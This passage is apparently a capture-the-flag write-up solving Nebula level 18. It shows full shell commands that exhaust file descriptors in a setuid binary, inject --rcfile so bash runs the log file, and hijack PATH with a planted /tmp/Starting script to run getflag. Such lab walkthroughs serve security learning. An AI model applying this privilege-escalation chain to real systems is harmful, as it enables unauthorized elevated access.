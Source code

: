 
Well, new problem arises, **/bin/sh** does not have any **-d** argument. I got stuck here so I looked for some help and was pointed to the **bash** man page and its **--rcfile** option:

>  The --rcfile file option will force Bash to read and execute commands from file instead of ~/.bashrc.

Ok, so there we go:

```lang-bash line-numbers 
level18@nebula:~$ echo "`python -c 'print("login me\n"*1021 + "closelog\n" + "shell")'`" | /home/flag18/flag18 --rcfile -d /tmp/log
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
/tmp/log: line 1: Starting: command not found
/tmp/log: line 2: syntax error near unexpected token `('
/tmp/log: line 2: `logged in successfully (without password file)'
```

Ok, it worked!!! but our rc file is now the log file and so, its trying to execute its contents and thats why it fails executing **Starting**, all we need to do is create an executable called after **Starting** with our payload:

```lang-bash line-numbers 
level18@nebula:~$ echo "getflag" > /tmp/Starting
level18@nebula:~$ chmod +x /tmp/Starting
level18@nebula:~$ export PATH=/tmp:$PATH
level18@nebula:~$ echo "`python -c 'print("login me\n"*1021 + "closelog\n" + "shell")'`" | /home/flag18/flag18 --rcfile -d /tmp/log
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
You have successfully executed getflag on a target account
/tmp/log: line 2: syntax error near unexpected token `('
/tmp/log: line 2: `logged in successfully (without password file)'
```

Voila !!!

I google around for solutions to the format string and buffer overflow approaches and found these ones that I need to re-read when I grow up :D

* [v0id s3curity - Exploit Exercise - Format String FORTIFY_SOURCE Bypass ](http://v0ids3curity.blogspot.com.es/2012/09/exploit-exercise-format-string.html)
* [v0id s3curity - Defeating ASLR Using Information Leak ](http://v0ids3curity.blogspot.com.es/2012/09/defeating-aslr-using-information-leak.html)
* [forelsket & security - Level 18](http://forelsec.blogspot.com.es/2013/03/nebula-solutions-all-levels.html)

